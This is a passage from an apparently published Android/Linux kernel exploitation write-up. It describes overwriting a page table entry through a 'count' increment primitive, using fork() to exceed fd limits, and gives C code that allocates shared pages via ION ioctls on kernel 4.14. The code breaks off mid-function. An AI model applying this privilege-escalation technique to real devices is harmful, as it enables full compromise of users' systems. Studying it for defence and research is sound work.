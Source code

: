 Although the

`count`

field is 4 bytes size, it happens to be coincided with lower 4bytes of a PTE. So it would be enough for us to modify a PTE by manipulating the

`count`

. Moreover, Jann horn[12] has constructed an increment primitive for

`count`

. With this increment primitive, we can add a number to the victim PTE.

However, the increment primitive for `count` is still under a limitation: it can only add 32768 to `count` at most because of limited fd resources in a process. To break the limitation, we can make use of fork() to perform increment primitive in multiple process. This operation allows us to add a large enough number to the victim PTE.

#### 5.2.2 Allocate the sharing pages[](#522-allocate-the-sharing-pages "Permanent link")

In kernel 4.14, there is no dma-buf system heap for us to allocate sharing pages. However, we get ION to do the similar work. Actually, ION is even more convenient because ION provided flags to let us allocate the sharing pages from page allocator directly. We can allocate sharing pages with the following code:

```
#if LEGACY_ION
int alloc_pages_from_ion(int num) {

    struct ion_allocation_data data;
    memset(&data, 0, sizeof(data));

    data.heap_id_mask = 1 << ION_SYSTEM_HEAP_ID;
    data.len = 0x1000*num;
    data.flags = ION_FLAG_POOL_FORCE_ALLOC;
    if (ioctl(ion_fd, ION_IOC_ALLOC, &data) < 0) {
        perror("ioctl");
        return -1;
    };

    struct ion_fd_data fd_data;
    fd_data.handle = data.handle;
    if (ioctl(ion_fd, ION_IOC_MAP, &fd_data) < 0) {
        perror("ioctl");
        return -1;
    }
    int dma_buf_fd = fd_data.fd;
    return dma_buf_fd;
}
#else
int alloc_pages_from_ion(int num) {

    struct ion_allocation_data data;
    memset(&data, 0, sizeof(data));

    data.heap_id_mask = 1 << ION_SYSTEM_HEAP_ID;
    data.len = 0x1000*num;
    data.flags = ION_FLAG_POOL_FORCE_ALLOC;
    if (ioctl(ion_fd, ION_IOC_ALLOC, &data) < 0) {
        perror("ioctl");
        return -1;
    }

    int dma_buf_fd = data.fd;

```
